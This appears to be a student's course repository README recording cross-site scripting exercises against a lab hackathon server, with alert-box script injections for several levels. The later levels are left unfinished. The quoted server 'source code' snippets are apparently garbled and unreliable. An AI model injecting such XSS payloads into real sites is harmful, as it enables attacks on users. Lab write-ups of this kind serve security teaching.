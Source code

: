# WAPH-jaindy Web Application Programming and Hacking

## Instructor: Dr. Phu Phung

## Student

**Name**: Divyani Jain

**Email**: jaindy@mail.uc.edu

**Short-bio**: Work experience of more than 6 years in IT Industry. Specialize in Analysis, Development, Design, Testing, Debugging and Implementation of Web Applications. 

![Divyani Headshot!](/Images/Divyani_Jain.jpg)

## Repository Information

Respository's URL: [https://github.com/jaindy/waph-jaindy.git](https://github.com/jaindy/waph-jaindy.git)

This is a private repository for divyani Jain to store all code from the course. The organization of this repository is as follows.

## Hackathon 1 - Cross-site Scripting Attacks and Defenses

Task 1. Perform cross site scripting attacks on below Url and display my name in alert.
http://waph-hackathon.eastus.cloudapp.azure.com/xss/level[0-6]/echo.php​

## Level 0: hacked level0 by injected javascript script tag in input field. 
Injected Code: <script>alert('level 0 hack by Divyani Jain')</script>

![Level 0!](/Images/Level0.png)

Source code of the echo.php web application:

<?php
$_REQUEST['input'];
?>

## Level 1: hacked level1 by injected javascript script tag in url. 
Injected Code: <script>alert('level 0 hack by Divyani Jain')</script>

![Level 1!](/Images/Level1.png)

Source code of the echo.php web application:

<?php
$_REQUEST['input'];
?>

## Level 2: hacked the level2 by changing the URL path in action attribute of the Form tag in HTML and Send Ajax post request.
Injected Code:
<form action="http://waph-hackathon.eastus.cloudapp.azure.com/xss/level2/echo.php" method="POST" name="echo_post">
Your Input: <input name="input" onkeypress="console.log('You have presses a key')">
<input type="Submit" value="Submit">
</form>

![Injected code Level 2!](/Images/Level2.png)
![Level 2!](/Images/Level2.png)

Source code of the echo.php web application:

<?php
$_REQUEST['input'];
?>

## Level 3: hacked the level3 by providing  
Injected Code:
![Level 3!](/Images/Level3.png)

Source code of the echo.php web application:
<?php
echo strip_tags("<script>alert('level 3 hack by Divyani Jain')</script>","<img>");
?>

## Level 4:
Injected Code:
![Level 4!](/Images/Level4.png)
## Level 5:
Injected Code:
![Level 5!](/Images/Level5.png)
## Level 6:
Injected Code:
Source code of the echo.php web application:

